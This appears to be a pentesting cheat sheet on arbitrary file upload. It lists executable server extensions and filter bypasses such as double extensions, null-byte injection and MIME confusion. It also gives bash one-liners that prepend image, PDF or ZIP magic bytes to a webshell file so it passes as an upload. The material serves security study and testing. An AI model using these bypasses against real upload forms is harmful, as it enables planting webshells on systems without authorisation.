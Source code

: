 ```yaml
---
icon: folder-arrow-up
---
```


# Arbitrary File Upload

{% hint style="info" %}
### <mark style="color:purple;">Executable extensions:</mark>

<mark style="color:orange;">**`.php`**</mark> <mark style="color:purple;">**->**</mark> <mark style="color:purple;">Standard extension for</mark> <mark style="color:purple;"></mark><mark style="color:purple;">**PHP scripts**</mark><mark style="color:purple;">.</mark>

&#x20;<mark style="color:orange;">**`.php5`**</mark> <mark style="color:purple;">**->**</mark> <mark style="color:purple;">Used for</mark> <mark style="color:purple;"></mark><mark style="color:purple;">**PHP version 5 scripts**</mark><mark style="color:purple;">.</mark>

&#x20;<mark style="color:orange;">**`.phtml`**</mark> <mark style="color:purple;">**->**</mark> <mark style="color:purple;">**PHP scripts**</mark> <mark style="color:purple;"></mark><mark style="color:purple;">with an alternative extension, often for compatibility or aesthetic reasons.</mark>

&#x20;<mark style="color:orange;">**`.pht`**</mark> **->** <mark style="color:purple;">Less common extension, used for</mark> <mark style="color:purple;"></mark><mark style="color:purple;">**PHP files**</mark><mark style="color:purple;">; sometimes bypasses naive filters.</mark>

&#x20;<mark style="color:orange;">**`.phps`**</mark> <mark style="color:purple;">**->**</mark> <mark style="color:purple;">Typically used for PHP</mark> <mark style="color:purple;"></mark><mark style="color:purple;">**source code highlighting**</mark><mark style="color:purple;">.</mark>

&#x20;<mark style="color:orange;">**`.php3`**</mark> <mark style="color:purple;">**->**</mark> <mark style="color:purple;">Extension for older PHP 3 scripts; still valid in some configurations.</mark>

&#x20;<mark style="color:orange;">**`.asp`**</mark> <mark style="color:purple;">**->**</mark> <mark style="color:purple;">**Active Server Pages**</mark><mark style="color:purple;">, Microsoft’s server-side scripting technology.</mark>

&#x20;<mark style="color:orange;">**`.aspx`**</mark> <mark style="color:purple;">**->**</mark> <mark style="color:purple;">**Advanced ASP.NET**</mark> <mark style="color:purple;"></mark><mark style="color:purple;">pages used for dynamic web content on Microsoft platforms.</mark>

&#x20;<mark style="color:orange;">**`.jsp`**</mark> <mark style="color:purple;">**-> Java Server Pages**</mark><mark style="color:purple;">, used for dynamic web applications in Java environments.</mark>
{% endhint %}

***

{% hint style="info" %}
### <mark style="color:purple;">Test filters</mark>

* <mark style="color:purple;">There are normally three ways a web server</mark> <mark style="color:purple;">will check for valid file types by comparing them to an allow- or deny-list:</mark>
* <mark style="color:orange;">**`File extension`**</mark> <mark style="color:purple;">**:**</mark>
  * <mark style="color:purple;">**Double extensions:**</mark>
    * <mark style="color:orange;">**`.png.php`**</mark><mark style="color:purple;">**,**</mark> <mark style="color:orange;">**`.jpg.php`**</mark><mark style="color:purple;">**,**</mark> <mark style="color:orange;">**`.png.asp`**</mark><mark style="color:purple;">**,**</mark> <mark style="color:orange;">**`.gif.jsp`**</mark>
  * <mark style="color:purple;">**Null byte injection:**</mark>
    * <mark style="color:orange;">**`file.php%00.jpg`**</mark><mark style="color:purple;">**,**</mark> <mark style="color:orange;">**`file.asp%00.png`**</mark>
* <mark style="color:orange;">**`Content-Type`**</mark> <mark style="color:purple;">**headers:**</mark>
  * <mark style="color:purple;">**Executable types:**</mark>&#x20;
    * <mark style="color:orange;">**`application/x-php`**</mark>
    * <mark style="color:orange;">**`application/x-sh`**</mark>&#x20;
    * <mark style="color:orange;">**`application/x-msdownload`**</mark>
    * <mark style="color:orange;">**`application/x-python-code`**</mark>&#x20;
  * &#x20;<mark style="color:purple;">**Image Types:**</mark>
    * &#x20;<mark style="color:orange;">**`image/png`**</mark><mark style="color:purple;">**,**</mark><mark style="color:orange;">**`image/jpeg`**</mark><mark style="color:purple;">**,**</mark> <mark style="color:orange;">**`image/gif`**</mark><mark style="color:purple;">**,**</mark> <mark style="color:orange;">**`image/bmp`**</mark><mark style="color:purple;">**,**</mark> <mark style="color:orange;">**`image/svg+xml`**</mark>
  * <mark style="color:orange;">**`MIME`**</mark> <mark style="color:purple;">**Confusion:**</mark>
    * <mark style="color:orange;">**`text/html`**</mark> <mark style="color:purple;">instead of</mark> <mark style="color:orange;">**`application/json`**</mark>
    * <mark style="color:orange;">**`text/plain`**</mark> <mark style="color:purple;">to trick servers.</mark>
* [<mark style="color:orange;">**`Magic bytes`**</mark>](https://en.wikipedia.org/wiki/List_of_file_signatures) <mark style="color:purple;">(file signature)</mark>
  * <mark style="color:purple;">**Online hex editor ->**</mark> [<mark style="color:orange;">**`HexED.it`**</mark>](https://hexed.it/)

{% code title="PNG" %}
```bash
echo "89504e470d0a1a0a" | xxd -r -p > magic_bytes.bin; cat magic_bytes.bin webshell.php > malicious.png
```
{% endcode %}

{% code title="JPEG" overflow="wrap" %}
```bash
echo "ffd8ff" | xxd -r -p > magic_bytes.bin; cat magic_bytes.bin webshell.php > malicious.jpg
```
{% endcode %}

{% code title="GIF" overflow="wrap" %}
```bash
echo "47494638" | xxd -r -p > magic_bytes.bin; cat magic_bytes.bin webshell.php > malicious.gif
```
{% endcode %}

{% code title="PDF" overflow="wrap" %}
```bash
echo "25504446" | xxd -r -p > magic_bytes.bin; cat magic_bytes.bin webshell.php > malicious.pdf
```
{% endcode %}

{% code title="ZIP" overflow="wrap" %}
```bash
echo "504b0304" | xxd -r -p > magic_bytes.bin; cat magic_bytes.bin webshell.php > malicious.zip
```
{% endcode %}
{% endhint %}
